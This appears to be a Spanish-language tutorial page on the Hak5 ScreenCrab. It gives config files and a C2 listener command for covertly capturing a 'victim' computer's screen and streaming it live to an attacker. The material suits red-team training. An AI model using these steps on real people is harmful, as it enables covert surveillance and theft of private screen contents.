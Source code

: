 ```yaml
---
icon: screencast
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ScreenCrab

Es un dispositivo que se utiliza pata capturar la pantalla de un equipo Victima, ya sea mediante capturas o video, pudiendo elegir la calidad de cada una de ellas, se hace la captura de una forma interna sin utilizar herramentas del sistema, por lo que es super sigiloso y nos afecta al sistema en tema de lentitud ni nada parecido.

> NOTA

Para que funcione y este alimentado el dispositivo, tendremos que tenerlo conectado en la ranura del `USB tipo C` a una toma de corriente.

## <mark style="color:purple;">Conexión/Configuración para que funcione</mark>

Lo que necesitaremos sera un cable `HDMI` extra del que ya venga en el monitor de la maquina victima, una `Micro SD` que conectaremos al dispositivo para que se guarde las capturas y los videos.

Conectando el `SD` al dispositivo y conectandolo a nuestro equipo Atacante, crearemos un archivo `.txt` en la `SD` poniendo los comandos que queremos que ejecute de captura de pantalla para el equipo victima, de primeras no habra nada en la `SD` pero cuando se le conecte, ya se crearan las respectivas carpetas y contenido del dispositivo.

Dentro del archivo `.txt` pondremos algo parecido a lo siguiente si queremos sacar capturas de pantalla en un intervalo de 5 segundos.

```txt
LED ON
CAPTURE_MODE IMAGE
CAPTURE_INTERVAL 5
STORAGE FILL
BUTTON EJECT
```

Ahora si conectamos el `HDMI` del equipo Victima al dispositivo con la `SD` ya incorporada y el segundo `HDMI` al dispositivo pero conectado al monitor Victima estara como estaba antes, pero en ese momento ya estaria ejecundose el dispositivo capturando todo como lo hayamos configurado.

Cuando lo desconectemos se parara o si presionamos un boton que tiene tambien lo hara, pero si lo desconectamos y lo dejamos como estaba antes, todo estara igual, pero cuando entremos dentro de la `SD` veremos que se añadieron varias cosas, entre ellas las que nos interesa es que donde nosotros pusimos el archivo `.txt` ahora se llamara `config` sin mas que es el que tendremos que modificar y todo se almacenara en la carpeta llamada `LOOT`.

Ahora si queremos grabar la pantalla en forma de video con intervalos de 30 segundos por cada video con una calidad maxima, pondremos lo siguiente.

```txt
LED ON
CAPTURE_MODE VIDEO
CAPTURE_INTERVAL 30
STORAGE FILL
BUTTON EJECT
VIDEO_BITRATE HIGH
```

Y solo tendremos que seguir el mismo proceso de antes.

### Antena del ScreenCrab

Se utiliza para que el dispositivo se pueda conectar a un `Punto de acceso` y desde ahi poder transmitir en tiempo real la pantalla de la Victima a un `C2 (Command And Control)` es un software que se tendra que descargar.

URL = [Pagina C2 Hack5](https://shop.hak5.org/products/c2?srsltid=AfmBOooq11iVSJiQPKTFs4pBW42xd7hNGAxxl2yBJzuG-uztcYpodbW2)

Y una vez descargado seria ejecutarlo en local en tu equipo Atacante.

```cmd
.\c2-3.2.0_amd64_windows.exe -listenip 0.0.0.0 -listenport 4646 -hostname <IP>
```

Y esto lo que hace es que en el equipo por dentro monta un servicio web con el que nos podremos conectar en internet con esa IP y puerto para visualizar lo que este llegando a tiempo real.

```
URL = localhost:4646
```

Y esto te llevara al software de `C2` por lo que nos tendremos que logear con nuestra cuenta y una vez hecho todo eso tendremos que añadir un dispositivo.

Dandole a `Add Device` nos abrira una ventana en la que tendremos que configurar la informacion del dispositivo que estemos creando (nombre, tipo de dispositivo, etc...):

```
Name = <NAME_DEVICE>
Device Type = Screen Crab
New Device Description = Screen Crab Demo
```

Le daremos a `Add Device` y esto nos añadira el dispositivo al sitio web.

Pinchando en el dispositivo, entraremos dentro del mismo, le daremos al boton `Setup` que nos descargara un archivo llamado `device.config` que sera el cual tendremos que pegar en la raiz de la `SD`, pero tambien tendremos que decir que se conecte el `ScreenCrab` a un punto de acceso para que esto funcione cambiando la configuracion del siguiente archivo llamado `config` que tendra que tener una estructura como esta:

```txt
WIFI_SSID "<NAME_WIFI>"
WIFI_PASS "<PASSWORD_WIFI>"
```

Ahora esta `SD` tendremos que meterlo en el `ScreenCrab`, conectarlo todo con sus `HDMI` del equipo Victima al `ScreenCrab` y del `ScreenCrab` al monitor Victima.

Cuando se conecte podremos ver en el equipo Atacante donde el sitio web en el dispositivo que creamos, vemos un pico de conexion en la seccion de `Uptime History`, el `Uptime` estara activo, al igual que el `Total Rx/Tx` y en `Online Clients` veremos un `1`.

Si nos vamos a la pestaña de `Configuration` veremos las opciones de captura y la pantalla del usuario Victima donde se estara capturando todo a tiempo real, pero para que sea mas rapido todo en la opcion llamada `Capture Intervale` lo establecemos en 5 segundos, Activamos la opcion llamada `Image Capture De-duplication` y si lo quieres en video se podra cambiar la opcion de `Capture Mode` en la opcion de `Video` en vez de `Still Image`.
